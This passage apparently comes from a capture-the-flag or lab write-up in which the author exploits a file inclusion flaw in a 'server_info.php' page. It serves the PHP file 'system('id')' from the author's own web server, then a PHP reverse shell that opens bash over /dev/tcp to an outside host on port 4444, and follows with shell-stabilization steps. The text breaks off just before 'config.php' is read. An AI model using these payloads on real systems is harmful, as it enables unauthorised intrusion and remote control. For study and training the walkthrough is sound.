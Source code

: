 
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317144245.png)

We find out a test URL site, we can try some techniques such as trying the LFI, let's try, first, let's set up a python server and point out our own URL:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317151014.png)

We get a directory listing for our server, we can try exploiting this with the inclusion we found on the `server_info.php` file, let's try some basic RCE:


```PHP
<?php
system('id');
?>
```

Let's save that file as `id.php` and send the request pointing that resource:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317151210.png)

There we go, we got RCE, let's send a shell:

```php
<?php system('bash -c "bash -i >& /dev/tcp/10.6.34.159/4444 0>&1"'); ?>
```

Let's save it as `shell.php` and do the same, we also need to set up a listener.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317151521.png)

There we go, we got our shell, let's start privesc.



# PRIVILEGE ESCALATION
---

Let's start by stabilizing our shell:


1. /usr/bin/script -qc /bin/bash /dev/null
2. CTRL + Z
3. stty raw -echo; fg
4. reset xterm
5. export TERM=xterm
6. export BASH=bash

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317152103.png)

We got a stable shell now, let's look around, we got this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250317152134.png)

Got a `config.php` file, let's read it:
